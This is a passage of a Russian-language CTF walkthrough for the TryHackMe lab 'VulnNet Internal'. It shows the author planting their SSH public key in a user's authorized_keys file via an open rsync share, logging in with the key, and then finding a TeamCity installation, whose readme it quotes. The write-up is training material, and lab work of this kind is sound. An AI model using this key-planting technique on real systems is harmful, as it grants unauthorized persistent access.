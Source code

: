 Получаем два файла **id_rsa.pub**  и **id_rsa**.

Через rsync добавляем наш публичный ключ в /.ssh/authorized_keys/
```
rsync id_rsa.pub rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/authorized_keys
```

Подлючаем по ключу к машине.
```
ssh -i id_rsa internal.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/VulnNet_Internal/10.png)

## TeamCity

Просмотрев директории находим следующую: **TeamCity**. Файл TeamCity-readme.txt:
```
This is the JetBrains TeamCity home directory.

To run the TeamCity server and agent using a console, execute:
* On Windows: `.\bin\runAll.bat start`
* On Linux and macOS: `./bin/runAll.sh start`

By default, TeamCity will run in your browser on `http://localhost:80/` (Windows) or `http://localhost:8111/` (Linux, macOS). If you cannot access the default URL, try these Troubleshooting tips: https://www.jet$

For evaluation purposes, we recommend running both server and agent. If you need to run only the TeamCity server, execute:
* On Windows: `.\bin\teamcity-server.bat start`
* On Linux and macOS: `./bin/teamcity-server.sh start`

For licensing information, see the "licenses" directory.

More information:
TeamCity documentation: https://www.jetbrains.com/help/teamcity/teamcity-documentation.html
TeamCity product page: https://www.jetbrains.com/teamcity/
```
